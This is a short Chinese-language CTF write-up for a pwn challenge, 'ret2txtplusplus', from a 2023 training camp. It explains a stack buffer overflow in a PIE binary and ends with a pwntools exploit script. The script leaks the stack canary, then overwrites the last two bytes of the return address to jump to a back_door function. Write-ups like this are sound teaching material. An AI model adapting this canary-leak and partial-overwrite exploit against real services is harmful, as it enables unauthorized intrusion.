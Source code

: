 ```yaml
---
title: 赛博协会训练营 - ret2txtplusplus
date: 2023/9/16 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过修改最后两个字节实现ret2txtplusplus的漏洞利用，成功跳转到back_door。
---
```


from cbctf starter 2023

## 文件分析

下载`ret2txtpp`, 保护全开  
ghidra分析为64位程序

## 解题思路

总体思路和上一题一致，但是加了pie，但我们又没法获取  
不过这次在vuln函数中运行，那么只要改掉最后2个字节就可以跳转到`back_door`（本来是跳转到main）  
~~如果rsp & 0xf != 0就没辙了~~

注意最后不能用sendline，因为会多填充一个\n导致地址错误  
查看pwntools源码，发现send后会flush，也可以结束读取

## EXPLOIT

```python
from pwn import *
sh = remote(???, 10015)
sh.sendline(b'0'*0x17 + b'.')
sh.recvuntil(b'.\n')
canary = u64(b'\0' + sh.recvline()[:7])
sh.send(b'0'*0x18 + p64(canary) + b'0'*8 + p16(0x08f4))
sh.interactive()
```

Done.
